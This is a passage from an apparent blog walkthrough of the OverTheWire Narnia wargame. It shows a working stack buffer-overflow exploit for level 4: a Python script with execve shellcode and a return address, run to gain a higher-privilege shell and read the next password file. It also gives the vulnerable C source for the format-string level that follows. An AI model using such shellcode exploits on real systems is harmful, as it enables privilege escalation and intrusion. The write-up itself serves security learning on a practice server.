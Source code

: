 Great, looks like 272 bytes will do the trick. Now, we need the address of of
`argv[1]` so we can jump there after filling it with shellcode.

{% highlight bash %}
0xffffd782:     ""
0xffffd783:     ""
0xffffd784:     "/games/narnia/narnia4"
0xffffd79a:     'A' <repeats 200 times>...
0xffffd862:     'A' <repeats 72 times>, "BBBB"
0xffffd8af:     "XDG_SESSION_ID=250351"
{% endhighlight %}

Looks like `argv[1]` starts at `0xffffd79a` - we should have what we need to
write an exploit string. I wrote a script for this one because the command
line input was getting a bit long.

{% highlight python %}
import struct

shellcode = 'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'
address = 0xffffd79a

buf = shellcode
buf += 'A'*(272-len(shellcode))
buf += struct.pack("<I", address)

print buf
{% endhighlight %}

{% highlight bash %}
narnia4@melinda:/tmp/intricatetrigger$ /narnia/narnia4 `python exploit.py`
$ id
uid=14004(narnia4) gid=14004(narnia4) euid=14005(narnia5) groups=14005(narnia5),14004(narnia4)
$ cat /etc/narnia_pass/narnia5
XXXXXXXXXX
{% endhighlight %}

There we go.

## Level5 &rarr; Level6 {#level6}

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
{% endhighlight %}


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools